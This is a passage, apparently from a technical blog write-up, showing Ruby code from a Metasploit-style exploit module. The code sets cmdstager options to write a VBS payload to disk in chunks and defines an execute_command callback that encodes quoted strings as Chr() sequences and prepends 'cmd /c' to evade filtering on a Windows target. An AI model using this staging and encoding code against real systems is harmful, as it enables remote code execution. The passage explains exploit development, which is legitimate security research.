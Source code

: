 The first two issues could be simply worked around by adding options (once I'd figured out the options to use):

<pre>wexec(<span class="Boolean">true</span>) <span class="Statement">do</span> |opts|
  opts[<span class="rubySymbol">:</span><span class="rubySymbol">flavor</span>] = <span class="rubySymbol">:</span><span class="rubySymbol">vbs</span>
  opts[<span class="rubySymbol">:</span><span class="rubySymbol">linemax</span>] = datastore[<span class="rubyStringDelimiter">"</span><span class="String">MAX_LINE_LENGTH</span><span class="rubyStringDelimiter">"</span>]
  opts[<span class="rubySymbol">:</span><span class="rubySymbol">temp</span>] = datastore[<span class="rubyStringDelimiter">"</span><span class="String">TMPDIR</span><span class="rubyStringDelimiter">"</span>]
  opts[<span class="rubySymbol">:</span><span class="rubySymbol">delay</span>] = <span class="Float">0.05</span>
  execute_cmdstager(opts)
<span class="Statement">end</span>
</pre>

<tt>execute_cmdstager()</tt> will execute <tt>execute_command()</tt> over and over to build the payload on-disk, which is where we fix the final issue:

<pre>
<span class="Comment"># This is the callback for cmdstager, which breaks the full command into</span>
<span class="Comment"># chunks and sends it our way. We have to do a bit of finangling to make it</span>
<span class="Comment"># work correctly</span>
<span class="Statement">def</span> <span class="Function">execute_command</span>(command, opts)
  <span class="Comment"># Replace the empty string, "", with a workaround - the first 0 characters of "A"</span>
  command = command.gsub(<span class="rubyStringDelimiter">'</span><span class="String">""</span><span class="rubyStringDelimiter">'</span>, <span class="rubyStringDelimiter">'</span><span class="String">mid(Chr(65), 1, 0)</span><span class="rubyStringDelimiter">'</span>)

  <span class="Comment"># Replace quoted strings with Chr(XX) versions, in a naive way</span>
  command = command.gsub(<span class="rubyStringDelimiter">/</span><span class="rubyRegexp">"</span><span class="Special">[^</span><span class="rubyRegexp">"</span><span class="Special">]</span><span class="Special">*</span><span class="rubyRegexp">"</span><span class="rubyStringDelimiter">/</span>) <span class="Statement">do</span> |capture|
    capture.gsub(<span class="rubyStringDelimiter">/</span><span class="rubyRegexp">"</span><span class="rubyStringDelimiter">/</span>, <span class="rubyStringDelimiter">""</span>).chars.map <span class="Statement">do</span> |c|
      <span class="rubyStringDelimiter">"</span><span class="String">Chr(</span><span class="rubyInterpolationDelimiter">#{</span>c.ord<span class="rubyInterpolationDelimiter">}</span><span class="String">)</span><span class="rubyStringDelimiter">"</span>
    <span class="Statement">end</span>.join(<span class="rubyStringDelimiter">'</span><span class="String">+</span><span class="rubyStringDelimiter">'</span>)
  <span class="Statement">end</span>

  <span class="Comment"># Prepend "cmd /c" so we can use a redirect</span>
  command = <span class="rubyStringDelimiter">"</span><span class="String">cmd /c </span><span class="rubyStringDelimiter">"</span> + command

  execute_single_command(command, opts)
<span class="Statement">end</span>
</pre>
